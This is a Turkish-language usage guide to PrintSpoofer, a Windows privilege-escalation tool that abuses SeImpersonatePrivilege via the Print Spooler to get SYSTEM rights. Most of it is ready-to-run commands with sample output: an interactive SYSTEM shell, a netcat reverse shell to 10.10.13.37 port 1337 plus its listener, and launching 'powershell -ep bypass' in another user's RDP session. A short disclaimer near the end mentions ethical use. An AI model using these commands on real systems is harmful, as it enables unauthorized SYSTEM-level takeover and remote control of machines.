 # PrintSpoofer Kullanım Kılavuzu

## Giriş
PrintSpoofer, Windows ortamlarında SeImpersonatePrivilege yetkisini kötüye kullanarak LOCAL veya NETWORK SERVICE hesaplarından SYSTEM seviyesine yükselme işlemi yapmak için kullanılan bir araçtır. Bu araç, Print Spooler hizmetini istismar ederek SYSTEM yetkisine sahip bir işlem başlatır.

---

## Gereksinimler
- Windows 10 veya Windows Server 2016/2019
- Kullanıcı hesabının **SeImpersonatePrivilege** yetkisine sahip olması
- Komut satırı erişimi

---

## Özellikler
PrintSpoofer aşağıdaki işlemleri gerçekleştirebilir:
- SYSTEM seviyesinde yeni bir süreç başlatma
- Geriye dönük bağlantılar (reverse shell) oluşturma
- Belirli bir oturumda yeni bir süreç başlatma (örneğin, RDP oturumu)

---

## Kullanım
### Yardım Mesajını Görüntüleme
Araç hakkında bilgi almak için:
```cmd
PrintSpoofer.exe -h
```
Bu komut, kullanılabilir seçeneklerin ve örneklerin bir listesini döndürür.

### Argümanlar
- `-c <CMD>`: Belirtilen komutu SYSTEM yetkileriyle çalıştırır.
- `-i`: Mevcut komut isteminde etkileşimli bir SYSTEM süreci oluşturur.
- `-d <ID>`: Belirtilen oturumda yeni bir süreç başlatır (örneğin, RDP).
- `-h`: Yardım mesajını görüntüler.

---

## Örnek Kullanımlar

### 1. **Etkileşimli SYSTEM Süreci Oluşturma**
Etkileşimli bir kabuk (örneğin, cmd veya PowerShell) başlatmak için:
```cmd
PrintSpoofer.exe -i -c cmd
```
Örnek Çıktı:
```cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
C:\WINDOWS\system32>whoami
nt authority\system
```

### 2. **SYSTEM Yetkileriyle Geriye Dönük Bağlantı (Reverse Shell) Oluşturma**
Netcat gibi bir araç kullanarak SYSTEM seviyesinde bir ters bağlantı oluşturmak için:
```cmd
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```
Dinleyici Ayarlama:
```cmd
nc.exe -l -p 1337
```
Örnek Çıktı:
```cmd
Microsoft Windows [Version 10.0.19613.1000]
C:\WINDOWS\system32>whoami
nt authority\system
```

### 3. **Belirli Bir Oturumda Süreç Başlatma**
RDP veya yerel oturumda SYSTEM seviyesinde bir işlem başlatmak için:
1. Oturum kimliğini öğrenin:
   ```cmd
   qwinsta
   ```
   Çıktı Örneği:
   ```cmd
   SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
   console           Administrator             1  Active
   rdp-tcp#3         lab-user                  3  Active
   ```
2. Belirli oturumda bir süreç başlatın:
   ```cmd
   PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
   ```

---

## Güvenlik Notları
PrintSpoofer yalnızca yasal ve etik amaçlarla kullanılmalıdır. Araç, sistem yöneticilerinin güvenlik açıklarını tespit etmesine ve gidermesine yardımcı olmak için tasarlanmıştır. Yetkisiz kullanım yasal sonuçlara yol açabilir.

---

## Kaynaklar
- [PrintSpoofer GitHub](https://github.com/itm4n/PrintSpoofer)
- [PrintSpoofer İlgili Blog Yazısı](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

---

Bu rehber, PrintSpoofer aracını kullanarak Windows sistemlerinde yetki yükseltme işlemleri yapmanın temellerini kapsamaktadır. Daha fazla bilgi veya yardım için yukarıdaki kaynakları ziyaret edin.
